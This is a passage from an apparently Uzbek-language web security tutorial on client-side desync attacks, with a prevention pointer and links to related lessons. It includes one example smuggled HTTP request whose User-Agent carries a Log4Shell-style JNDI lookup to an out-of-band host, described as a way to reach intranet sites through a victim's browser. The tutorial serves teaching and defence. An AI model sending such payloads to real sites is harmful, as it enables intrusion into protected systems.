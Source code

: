 Bu shuni anglatadiki, bu hujumlar odatda siz bevosita kirishingiz mumkin bo'lgan veb-saytlar bilan cheklangan. Biroq, agar veb-sayt client-side desync-ga qarshi himoyasiz bo'lsa, foydalanuvchining brauzerini quyidagi so'rovni yuborishga undash orqali kerakli natijaga erishishingiz mumkin:

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-website.com
User-Agent: Mozilla/5.0 etc.
Content-Length: 86

GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: ${jndi:ldap://x.oastify.com}
```

Barcha requestlar foydalanuvchining brauzeridan kelib chiqqanligi sababli, bu sizga ular kirishi mumkin bo'lgan har qanday veb-saytga hujum qilish imkonini beradi. Bunga ishonchli intranetlarda joylashgan yoki IP-ga asoslangan himoya ortida yashiringan saytlar kiradi.

## <mark style="color:yellow;">Qanday qilib client-side desync zaifligining oldi olinadi</mark> <a href="#how-to-prevent-client-side-desync-vulnerabilities" id="how-to-prevent-client-side-desync-vulnerabilities"></a>

Client-side desync zaifliklari va desinxronlash hujumining boshqa shakllarini oldini olish uchun qilishingiz mumkin bo'lgan yuqori darajali ba'zi choralarni o'rganish uchun [<mark style="color:yellow;">HTTP request smuggling zaifliklarni qanday oldini olish mumkin</mark>](../http-request-smuggling/#qanday-qilib-http-request-smuggling-zaifliklarini-oldini-olish-mumkin) nomli mavzuni o'qing.

{% hint style="info" %}
**Keyingisi nima?**

Siz [<mark style="color:yellow;">CL.0</mark>](cl.0.md) va [<mark style="color:yellow;">CSD</mark>](client-side-desync.md) hujumlari haqida bilib oldingiz, lekin ko'rinishidan xavfsiz koʻrinadigan veb-saytlarda server-side va client-side exploitlarini yuzaga keltirishi mumkin boʻlgan yana bir desync vektori mavjud. Batafsil ma’lumot olish uchun [<mark style="color:yellow;">pauza asosidagi desinxronlash zaiflik</mark>](pause-based-desync.md)larini ko‘rib chiqing
{% endhint %}
